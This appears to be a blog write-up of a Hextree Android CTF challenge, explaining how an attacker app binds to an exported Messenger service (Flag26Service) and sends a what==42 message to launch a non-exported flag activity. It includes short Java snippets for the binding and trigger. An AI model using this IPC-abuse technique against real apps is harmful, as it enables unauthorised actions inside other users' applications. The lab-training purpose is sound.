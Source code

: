 ```yaml
---
layout: post
title: Exploiting Flag26Service – Android Messenger-Based Service (Hextree CTF)
categories: android
date: 2025-06-09
tags:
  - Android
  - IPC
  - Messenger
  - Android
  - CTF
  - Hextree
  - Android
  - Services
  - App
  - Security
image: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSXmYjvkPoTPJk7lEIJpt19Z24OkecfMezJNg&s 
pin: false
comments: true
toc: true
---
```



## 🔍 Challenge Overview

We're given a bound `Service` called `Flag26Service`, which exposes a `Messenger` IPC interface using `onBind()`:

```java
@Override
public IBinder onBind(Intent intent) {
    return this.messenger.getBinder();
}
````

The service uses a `Handler` to process incoming messages. When it receives a message with `what == 42`, it triggers this function:

```java
private void success(String str) {
    Intent intent = new Intent(this, Flag26Activity.class);
    intent.putExtra("secret", secret);
    intent.putExtra("what", 42);
    intent.addFlags(268468224);
    intent.putExtra("hideIntent", true);
    startActivity(intent);
}
```

This launches the activity containing the flag, passing the secret and flag trigger values via the `Intent`.

---

## 🚧 The Catch

Even if you successfully bind to the service and send `Message.what == 42`, **`Flag26Activity` is not exported**:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag26Activity"
    android:exported="false"/>
```

This means the activity **cannot be launched** from your external app **unless the target app is already in the foreground or running in the background**.

---

## ✅ Solution Steps

### 1. Create a separate app

This is your attack app.

### 2. Bind to the service

Use `Context.BIND_AUTO_CREATE` to connect to the exported `Flag26Service`.

```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag26Service");
bindService(intent, connection, Context.BIND_AUTO_CREATE);
```

### 3. Send the trigger message

Use a `Messenger` to send a message with `what == 42`.

```java
Message msg = Message.obtain(null, 42);
serviceMessenger.send(msg);
```

### 4. Bring the app to the foreground

Since `Flag26Activity` is not exported, the service **won’t launch it** unless the app is running in the foreground.

✅ **Workaround:**
After pressing the attack button, **manually open the target app** (`io.hextree.attacksurface`) to bring it to the foreground.
This will allow `startActivity(intent)` inside the service to succeed.

---

## 🏁 Flag Retrieval

Once the activity is launched, it checks if the passed `secret` matches the static `Flag26Service.secret`, and shows the flag if so:

```java
if (Flag26Service.secret.equals(stringExtra)) {
    success(this);
}
```

✅ **The flag is displayed inside `Flag26Activity` UI or logged using the internal `LogHelper` class.**

---

Thanks for reading 🙌